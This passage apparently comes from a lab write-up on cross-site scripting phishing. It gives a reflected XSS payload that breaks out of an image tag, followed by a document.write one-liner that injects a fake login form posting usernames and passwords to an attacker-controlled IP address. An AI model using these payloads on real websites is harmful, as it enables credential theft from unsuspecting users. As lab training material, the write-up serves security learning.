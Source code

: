 >Below below uses `'>` to break out of te source code img tag.  

```
http://10.129.63.83/phishing/index.php?url=http://10.10.15.41/image.png'><script>alert('xss found')</script>
```  

![xss-phishing-found](/images/xss-phishing-found.png)  

>Login Form Injection phishing attack

```html
<div>
<h3>Please login to continue</h3>
<input type="text" placeholder="Username">
<input type="text" placeholder="Password">
<input type="submit" value="Login">
<br><br>
</div>
```  

>Use above and make Single JavaScript Cookie Stealer one-liner:

```
document.write('<h3>Please login to continue</h3><form action=http://10.10.15.41><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');
```  

![xss-cleanup](/images/xss-cleanup.png)  
